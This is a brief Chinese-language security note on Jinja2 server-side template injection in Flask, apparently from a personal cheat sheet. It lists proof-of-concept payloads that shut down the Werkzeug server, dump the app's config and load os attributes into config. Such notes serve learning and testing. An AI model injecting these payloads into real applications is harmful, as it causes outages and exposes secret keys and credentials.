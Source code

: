 参考：
	- http://www.vuln.cn/6194

## Flask

渲染函数
- render_template
- render_template_string

使用的是jinja2的模板引擎

poc
```python
{{ request.environ['werkzeug.server.shutdown']() }}   #拒绝服务,gunicorn运行应用程序时不会发生
{{ config.items() }}  # 配置文件
{{ config.from_object('os') }} # 在config对象中添加那些在os库中变量名全是大写的属性
# config对象是一个类似于字典的对象，但它也是包含若干独特方法的子类：from_envvar，from_object，from_pyfile，以及root_path
```